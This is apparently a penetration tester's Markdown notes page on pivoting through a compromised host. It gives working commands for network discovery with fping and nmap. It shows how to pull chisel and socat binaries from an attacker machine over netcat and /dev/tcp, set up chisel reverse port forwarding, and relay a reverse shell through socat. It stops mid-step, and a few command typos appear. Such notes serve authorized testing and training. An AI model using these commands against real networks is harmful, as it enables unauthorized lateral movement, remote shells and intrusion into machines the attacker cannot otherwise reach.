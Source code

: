 # Pivoting {-}

**Pivoting** is a technic that comes when attacker already took access to a first victim and see that this victim machine have access to other machines that attacker can
not connect to. Let's see an example:

Attacker gain access to the machine 10.10.10.10 and looking at his ifconfig he see someting like the following:

```bash
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

At this moment attacker try to ping the victim machine at his second ip (20.20.20.20) and the ping don't respond. That's because Attacker don't have access to this network.
The only way he have is to use the victim machine to do a network discovery for the 20.20.20.0/24 network. On the victim machine he can for example do a 
`fping -a -g 20.20.20.0/24 2>/dev/null` or a `nmap -sn 20.20.20.0/24` (also a personal script if no other possiblity exists). 
Attacker see that another machine exists in this network segment. The 20.20.20.20 has been discovered with port 80 and 22. Because Attacker can not access to this machine,
he have to use the 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. That's pivoting

Here for the notes we will have special nomenclature:  

- 20.20.20.20 -> **victim machine**  
- 10.10.10.10 -> **pivoting machine**  
- attacker -> **attacker machine**  


## Pivoting with chisel {-}

1. Get chisel and build  

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go blid -ldflags "-s -w" .
    upx brute chisel
    ```

1. Send Chisel binary to the pivoting machine  

    - on attacker machine  

        ```bash
        md5sum chisel
        nc -nlvp 443 < chisel
        ```
    
    - on pivoting machine  

        ```bash
        cat > chisel < /dev/tcp/<attacker ip>/443
        md5sum chisel
        chmod +x chisel
        ```

1. Create reverse port forwarding with the victim machine ports to bind attacker machine ports  

    - on attacker machine  

        ```bash
        ./chisel server --reverse -p 1234
        ```
    
    - on pivoting machine  

        ```bash
        ./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
        ```

1. Now attacker can check the web app on localhost:80 or use the ssh to 127.0.0.1 -p 222

## Pivoting with socat {-}

1. Get socat static binary  

    ```bash
    wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
    ```

1. Send sockat to pivoting machine  

    - on attacker machine  

        ```bash
        md5sum socat
        nc -nlvp 1111 < socat
        ```
    
    - on pivotin machine  

        ```bash
        cat > socat < /dev/tcp/<attacker ip>/1111
        md5sum socat
        chmod +x socat
        ```

1. Prepare attacker machine for listenning  

    ```bash
    nc -nlvp 7979
    ```

1. Tuneling tcp data for reverse shell from victim to the attacker  

    - on pivoting machine  

    ```bash
    ./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
    ```

1. Reverse shell from victim to pivoting machine on 4545 port  


